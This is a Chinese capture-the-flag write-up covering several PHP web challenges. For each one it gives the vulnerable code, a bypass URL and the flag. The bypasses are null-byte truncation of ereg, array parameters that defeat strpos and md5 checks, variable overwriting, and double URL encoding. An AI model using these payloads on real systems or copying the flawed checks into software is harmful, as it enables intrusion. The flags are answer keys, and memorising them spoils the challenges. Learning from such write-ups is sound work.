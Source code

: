 	mysql_fetch_array() expects parameter 1 to be resource, boolean given in SQL-GBK/index.php on line 10

16./x00!!!!!!!!!!!!!!!!!!!!!!!!!!!!
200
题目有多种解法，你能想出来几种？

	if (isset ($_GET['nctf'])) {
		if (@ereg ("^[1-9]+$", $_GET['nctf']) === FALSE)
			echo '必须输入数字才行';
		else if (strpos ($_GET['nctf'], '#biubiubiu') !== FALSE)   
			die('Flag: '.$flag);
		else
			echo '骚年，继续努力吧啊~';
	}

	ereg/strpos
	http://teamxlc.sinaapp.com/web4/f5a14f5e6e3453b78cd73899bad98d53/index.php?nctf=12345%00%23biubiubiu
	http://teamxlc.sinaapp.com/web4/f5a14f5e6e3453b78cd73899bad98d53/index.php?nctf[]=111
	flag:nctf{use_00_to_jieduan}

17.bypass again!!!!!!!!!!!!!!!!!!!!!!!!!!!
200
if (isset($_GET['a']) and isset($_GET['b'])) {
if ($_GET['a'] != $_GET['b'])
if (md5($_GET['a']) === md5($_GET['b']))
die('Flag: '.$flag);
else
print 'Wrong.';
}
URL可以传递数组参数，形式是http://haha.com?x[]=1&x[]=2&x[]=3，这样就提交了一个x[]={1,2,3}的数组。
在PHP中，MD5是不能处理数组的，md5(数组)会返回null，所以md5(a[])==null,md5(b[])==null，md5(a[])=md5(b[])=null
http://chinalover.sinaapp.com/web17/index.php?a[]=1&b[]=2
Flag: nctf{php_is_so_cool}

18.变量覆盖
http://chinalover.sinaapp.com/web18/index.php
pass=1&thepassword_123=1
nctf{bian_liang_fu_gai!}


19.PHP是世界上最好的语言??????????????????????????????????????
250
<?php
if(eregi("hackerDJ",$_GET[id])) {
  echo("<p>not allowed!</p>");
  exit();
}

$_GET[id] = urldecode($_GET[id]);
if($_GET[id] == "hackerDJ")
{
  echo "<p>Access granted!</p>";
  echo "<p>flag: *****************} </p>";
}
?>
http://way.nuptzj.cn/php/index.php?id=%2568ackerDJ 
nctf{php_is_best_language}
